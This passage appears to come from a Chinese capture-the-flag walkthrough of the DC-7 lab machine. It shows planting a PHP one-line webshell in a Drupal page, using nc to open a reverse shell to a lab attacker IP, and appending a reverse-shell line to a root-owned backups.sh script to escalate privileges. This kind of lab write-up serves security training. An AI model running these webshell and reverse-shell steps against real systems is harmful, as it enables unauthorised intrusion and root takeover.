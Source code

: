         ![image.png](image%2040.png)
        
4. 安装完后，我们来到 `Content` 选项，选择**`Welcome to DC-7`** edit编辑
    
    ![image.png](image%2041.png)
    
    内容改为一句木马，然后内容格式化改为`php` ，然后保存
    
5. 保存后复制页面链接使用蚁🗡连接，然后使用蚁🗡反弹`shell`
    
    ```python
    (www-data:/var/www/html) $ nc 192.168.75.151 1234 -e /bin/bash
    ```
    
    获得`www-data`的`shell`
    
    ```python
    whoami
    www-data
    ```
    
6. 我们知道`backups.sh`脚本属主为`root`，属组为`www-data` ，回到`backups.sh`的目录，将反弹`shell`语句插入脚本
    
    ```python
    echo "nc 192.168.75.151 1233 -e /bin/bash" >> backups.sh
    ```
    